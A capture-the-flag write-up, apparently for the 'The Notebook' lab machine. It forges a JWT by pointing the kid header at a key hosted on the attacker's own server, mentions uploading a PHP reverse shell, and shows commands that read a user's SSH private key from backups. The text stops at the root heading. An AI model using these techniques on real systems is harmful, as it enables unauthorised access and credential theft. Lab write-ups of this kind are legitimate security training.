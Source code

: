 #  The Notebook
IP : 10.10.10.230

Nmap scan 

|Port|Service|
|---|---|
|22|ssh|
|80|http
|10010|rxapi|

Let start by looking at the webpage. It some kind of online notebook lets try and register. Once registered we see under notes it allows us to create new notes. There is not much functionality to be exploited, inspecting the site I notes there is a jwt token. 

The token can be decoded on jwt.io look at how the kid paramter point to an internal resource, they try exploit by pointing to our own computer.

First generate a key 

````base
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
````

now edit the JWT token. 
````base
echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.200:7070/privKey.key"}' |base64
echo '{"username":"test123","email":"test@test.htb","admin_cap":true}' |base64
````

paste the two result into jwt.io remeber to add a . between the two results. 
and the result of the private key to get a jwt token. 

Use python to host the privKey.key
````bash
python -m http.server 7070
````

And I got access to the admin portal. 
open a netcat listner and upload a reverse php shell and get access to "ww-data"
lets try and esculate to user. 
During emulation I found backups files inside /var/backups 
lets unpack them I see it I find anything interresting. 

````bash 
tar -zxvf home.tar.gz -C /tmp
```` 

And why do I stop an id_rsa file which can be used to login to Noah without password.

````bash
cat /tmp/key/home/noah/.ssh/id_rsa
````

copy the key to the machine. 
````bash
touch id_rsa
nano ida_rsa
chmod 600 id_rsa
ssh -i id_rsa noah@thenotebook.htb
cat user.txt
````

## Root